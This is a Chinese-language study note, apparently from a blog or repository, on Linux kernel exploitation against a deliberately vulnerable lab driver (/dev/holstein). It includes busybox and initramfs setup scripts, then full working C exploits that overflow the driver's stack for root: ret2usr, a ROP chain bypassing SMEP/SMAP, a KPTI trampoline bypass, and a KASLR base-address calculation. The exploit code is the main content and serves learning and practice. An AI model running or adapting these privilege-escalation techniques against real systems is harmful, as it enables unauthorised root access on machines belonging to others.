



# 编译busybox

下载源码：

```
wget -c XXXXX
```

配置makefile：

```sh
make menuconfig
```

编译项目：

```
make
make install
```

出现tc.c文件的相关报错直接在**networking**文件夹中删除tc.c这个文件

# 配置kernel文件系统及镜像相关脚本

解压cpio文件系统压缩包：

```sh
#!/bin/bash

# 脚本功能：解压 .cpio.gz 或 .cpio 格式的文件系统压缩包
# 用法：script_name <压缩包文件路径>

# 检查是否传入了参数
if [ "$#" -ne 1 ]; then
  echo "用法: $0 <压缩包文件路径>"
  echo "示例: $0 ./initramfs.cpio.gz"
  echo "示例: $0 /path/to/my_filesystem.cpio"
  exit 1
fi

ARCHIVE_FILE="$1"
EXTRACT_DIR="./initramfs"

# 检查文件是否存在
if [ ! -f "$ARCHIVE_FILE" ]; then
  echo "错误：文件 '$ARCHIVE_FILE' 不存在！"
  exit 1
fi

# 移除已存在的解压目录并新建
echo "移除现有目录 '$EXTRACT_DIR'..."
rm -rf "$EXTRACT_DIR"
echo "创建解压目录 '$EXTRACT_DIR'..."
mkdir "$EXTRACT_DIR" || { echo "错误：无法创建目录 '$EXTRACT_DIR'！"; exit 1; }
cp $ARCHIVE_FILE $EXTRACT_DIR

# 进入解压目录
echo "进入目录 '$EXTRACT_DIR'..."
pushd "$EXTRACT_DIR" || { echo "错误：无法进入目录 '$EXTRACT_DIR'！"; exit 1; }

# 根据文件后缀判断是否需要解压缩
echo "解压文件 '$ARCHIVE_FILE'..."
if [[ "$ARCHIVE_FILE" == *.gz ]]; then
  # 如果是 .gz 结尾，使用 gzip 解压并通过管道传递给 cpio
  gzip -dc "$ARCHIVE_FILE" | cpio -idm
  rm -rf $ARCHIVE_FILE
  EXTRACT_STATUS=$? # 获取上一个命令的退出状态
else
  # 如果不是 .gz 结尾，直接使用 cpio 解压文件
  cpio -idm < "$ARCHIVE_FILE"
  EXTRACT_STATUS=$? # 获取上一个命令的退出状态
  rm -rf $ARCHIVE_FILE
fi

# 检查解压是否成功
if [ $EXTRACT_STATUS -ne 0 ]; then
  echo "错误：解压文件 '$ARCHIVE_FILE' 失败！退出状态：$EXTRACT_STATUS"
  popd # 退出目录栈，返回原目录
  rm -rf $EXTRACT_DIR
  exit $EXTRACT_STATUS
fi

# 返回原目录，并抑制 popd 的输出
popd > /dev/null

echo "成功将文件 '$ARCHIVE_FILE' 解压到 '$EXTRACT_DIR'。"
```

静态链接exp并打包如文件系统当中：

```sh
#!/bin/bash

# Compress initramfs with the included statically linked exploit
in=$1
out=$(echo $in | awk '{ print substr( $0, 1, length($0)-2 ) }')
gcc $in -static -o $out || exit 255
mv $out initramfs
pushd . && pushd initramfs
find . -print0 | cpio --null --format=newc -o 2>/dev/null | gzip -9 > ../initramfs.cpio.gz
popd
```

从vmlinux中抽取出含有符号表的镜像文件：

```sh
#!/bin/sh
# SPDX-License-Identifier: GPL-2.0-only
# ----------------------------------------------------------------------
# extract-vmlinux - Extract uncompressed vmlinux from a kernel image
#
# Inspired from extract-ikconfig
# (c) 2009,2010 Dick Streefland <dick@streefland.net>
#
# (c) 2011      Corentin Chary <corentin.chary@gmail.com>
#
# ----------------------------------------------------------------------

check_vmlinux()
{
	# Use readelf to check if it's a valid ELF
	# TODO: find a better to way to check that it's really vmlinux
	#       and not just an elf
	readelf -h $1 > /dev/null 2>&1 || return 1

	cat $1
	exit 0
}

try_decompress()
{
	# The obscure use of the "tr" filter is to work around older versions of
	# "grep" that report the byte offset of the line instead of the pattern.

	# Try to find the header ($1) and decompress from here
	for	pos in `tr "$1\n$2" "\n$2=" < "$img" | grep -abo "^$2"`
	do
		pos=${pos%%:*}
		tail -c+$pos "$img" | $3 > $tmp 2> /dev/null
		check_vmlinux $tmp
	done
}

# Check invocation:
me=${0##*/}
img=$1
if	[ $# -ne 1 -o ! -s "$img" ]
then
	echo "Usage: $me <kernel-image>" >&2
	exit 2
fi

# Prepare temp files:
tmp=$(mktemp /tmp/vmlinux-XXX)
trap "rm -f $tmp" 0

# That didn't work, so retry after decompression.
try_decompress '\037\213\010' xy    gunzip
try_decompress '\3757zXZ\000' abcde unxz
try_decompress 'BZh'          xy    bunzip2
try_decompress '\135\0\0\0'   xxx   unlzma
try_decompress '\211\114\132' xy    'lzop -d'
try_decompress '\002!L\030'   xxx   'lz4 -d'
try_decompress '(\265/\375'   xxx   unzstd

# Finally check for uncompressed images or objects:
check_vmlinux $img

# Bail out:
echo "$me: Cannot find vmlinux." >&2
```

# GDB调试

在qemu的启动脚本中添加参数：-s

-s参数允许GDB接入调试

附加-S参数是qemu会在GDB接入之前暂停运行

# LK01

POC验证：

```c
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

int main() {
  int fd = open("/dev/holstein", O_RDWR);
  char buf[0x420];
  memset(buf, 'A', 0x400);
  char probe[] = "BBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF";
  memcpy(buf + 0x400, probe, strlen(probe));
  write(fd, buf, 0x400 + strlen(probe));
  close(fd);
  return 0;
}

```

这里补充一个相关基础知识：

这个write函数是Linux下glibc提供的一个标准系统调用接口，在调用这个接口是会根据前面所打开这个fd来查找对应的驱动文件中的对应处理函数。所以这些POC是可以在外部被编译成功的。

## ret2usr

对于没有任何防护的内核，直接采用用户态下ret2shellcode相似的方法就可以完成提权，exp为：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/holstein";
void spawn_shell();

int64_t global_fd = 0;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff8106e240;
uint64_t commit_creds = 0xffffffff8106e390;
uint64_t user_rip = (uint64_t)spawn_shell;

void open_dev() {
  global_fd = open(VULN_DRV, O_RDWR);
  if (global_fd < 0) {
    printf("[!] failed to open %s\n", VULN_DRV);
    exit(-1);
  } else {
    printf("[+] successfully opened %s\n", VULN_DRV);
  }
}

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void privesc() {
  __asm__(".intel_syntax noprefix;"
          "movabs rax, prepare_kernel_cred;"
          "xor rdi, rdi;"
          "call rax;"
          "mov rdi, rax;"
          "movabs rax, commit_creds;"
          "call rax;"
          "swapgs;"
          "mov r15, user_ss;"
          "push r15;"
          "mov r15, user_sp;"
          "push r15;"
          "mov r15, user_rflags;"
          "push r15;"
          "mov r15, user_cs;"
          "push r15;"
          "mov r15, user_rip;"
          "push r15;"
          "iretq;"
          ".att_syntax;");
}

void overwrite_ret() {
  puts("[*] trying to overwrite return address of write op");
  uint64_t ret_off = 0x408;
  char payload[0x410];
  memset(payload, 'A', ret_off);
  *(uint64_t *)&payload[ret_off] = (uint64_t)privesc; // return address

  uint64_t data = write(global_fd, payload, sizeof(payload));

  puts("[-] if you can read this we failed the mission :(");
}

int main(int argc, char **argv) {
  open_dev();
  save_userland_state();
  overwrite_ret();
  close(global_fd);

  return 0;
}
```

注意这里在ret2usr的exp中，我在自己的实验环境里尝试网上的exp会出现提权成功但是system("/bin/sh") segment fault的问题，调试了下发现是system函数内部逻辑中某个内核函数的出现错误。后来换成execve来执行就可以成功get shell。根据GPT的说法是因为此时**用户态栈**、**C 运行时环境**（比如 glibc 的内部锁、`stdout`/`stderr` 缓冲区）已经被提权 shellcode 或者不正确的 `iretq` 栈恢复给搞乱了，所以在某些内核函数执行时就会出现错误。但是execve这个函数会更新当前的进程上下文（直接用新的进程替换掉原来的进程），并且重建栈，所以可以执行成功（暂时不知道正确与否）

## SMEP/SMAP

类似于用户态下的NX执行，在内核态时无法执行用户态中的代码，也不能读取用户态中的数据。使用ROP技术来完成提权：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/holstein";
void spawn_shell();

int64_t global_fd = 0;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff8106e240;
uint64_t commit_creds = 0xffffffff8106e390;
uint64_t pop_rdi_ret = 0xffffffff8127bbdc;
uint64_t mov_rdi_rax_ret = 0xffffffff8160c96b;
uint64_t pop_rcx_ret = 0xffffffff812ea083;
uint64_t iretq = 0xffffffff81343b12;
uint64_t swapgd = 0xffffffff8160bfac;
uint64_t user_rip = (uint64_t)spawn_shell;

void open_dev() {
  global_fd = open(VULN_DRV, O_RDWR);
  if (global_fd < 0) {
    printf("[!] failed to open %s\n", VULN_DRV);
    exit(-1);
  } else {
    printf("[+] successfully opened %s\n", VULN_DRV);
  }
}

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void overwrite_ret() {
  puts("[*] trying to overwrite return address of write op");
  uint64_t ret_off = 0x408;
  char payload[0x500];
  memset(payload, 'A', ret_off);
  //   *(uint64_t *)&payload[ret_off] = (uint64_t)privesc; // return address
  uint64_t *rop_chain = (uint64_t *)&payload[ret_off];
  *rop_chain++ = pop_rdi_ret;
  *rop_chain++ = 0;
  *rop_chain++ = prepare_kernel_cred;
  *rop_chain++ = pop_rcx_ret;
  *rop_chain++ = 0;
  *rop_chain++ = mov_rdi_rax_ret;
  *rop_chain++ = commit_creds;
  *rop_chain++ = swapgd;
  *rop_chain++ = iretq;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;

  uint64_t data = write(global_fd, payload, sizeof(payload));

  puts("[-] if you can read this we failed the mission :(");
}

int main(int argc, char **argv) {
  open_dev();
  save_userland_state();
  overwrite_ret();
  close(global_fd);

  return 0;
}
```

## KPTI

这是为了防止18年Intel的熔断漏洞而诞生的机制，将用户态和内核态使用的页表目录隔开了，用户态下无法看到内核态的内存页（反之不然，内核态可以看到用户态）。但是在设计实现上肯定存在一段指令完成将这个页表目录进行切换的功能，可以截取这段指令作为跳板指令来进行ROP。

内核函数中`swapgs_restore_regs_and_return_to_usermode`函数中的一段汇编指令可以作为trampoline使用

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/holstein";
void spawn_shell();

int64_t global_fd = 0;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff8106e240;
uint64_t commit_creds = 0xffffffff8106e390;
uint64_t pop_rdi_ret = 0xffffffff8127bbdc;
uint64_t mov_rdi_rax_ret = 0xffffffff8160c96b;
uint64_t pop_rcx_ret = 0xffffffff812ea083;
uint64_t iretq = 0xffffffff81343b12;
uint64_t swapgd = 0xffffffff8160bfac;
uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;
uint64_t user_rip = (uint64_t)spawn_shell;

void open_dev() {
  global_fd = open(VULN_DRV, O_RDWR);
  if (global_fd < 0) {
    printf("[!] failed to open %s\n", VULN_DRV);
    exit(-1);
  } else {
    printf("[+] successfully opened %s\n", VULN_DRV);
  }
}

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void overwrite_ret() {
  puts("[*] trying to overwrite return address of write op");
  uint64_t ret_off = 0x408;
  char payload[0x500];
  memset(payload, 'A', ret_off);
  //   *(uint64_t *)&payload[ret_off] = (uint64_t)privesc; // return address
  uint64_t *rop_chain = (uint64_t *)&payload[ret_off];
  *rop_chain++ = pop_rdi_ret;
  *rop_chain++ = 0;
  *rop_chain++ = prepare_kernel_cred;
  *rop_chain++ = pop_rcx_ret;
  *rop_chain++ = 0;
  *rop_chain++ = mov_rdi_rax_ret;
  *rop_chain++ = commit_creds;
  *rop_chain++ = swapgs_restore_regs_and_return_to_usermode + 22;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;

  uint64_t data = write(global_fd, payload, sizeof(payload));

  puts("[-] if you can read this we failed the mission :(");
}

int main(int argc, char **argv) {
  open_dev();
  save_userland_state();
  overwrite_ret();
  close(global_fd);

  return 0;
}
```

exp中将swapgs_restore_regs_and_return_to_usermode的地址加上22是由于在原生的swapgs_restore_regs_and_return_to_usermode函数中：



前面有一大串的pop指令会影响执行，所以直接加地址跳过。

后面的两个0是由于：



在swapgs命令之前有两个pop操作。

## KASLR

这个类似于用户态下的ALSR，也就是地址随机化，但是在内核中的随机化程度没有在用户态下的那么大



内核态下其实只有中间的12位被随机化的。

那么如果能泄露一个内核中的地址，就可以通过这个地址计算偏移来逆推本次kernel加载的地址

对于本次环境中这个地址的计算：

首先需要泄露出关闭kaslr下的一个内核中的地址：0xffffffff8113d33c

根据这个地址和不开启kaslr时kernel的基址：0xffffffff81000000

可以计算出这个函数与kernel基址的偏移距离：0xffffffff8113d33c - 0xffffffff81000000

这个偏移是固定的，不因为kaslr机制而发生变化，那么根据这个偏移值结合在开启kaslr下泄露出来的地址就可以逆推出本次kernel加载的基址，计算方式为：

```
leak_addr - (0xffffffff8113d33c - 0xffffffff81000000)
```

这样就可以得到本次kernel加载的基址了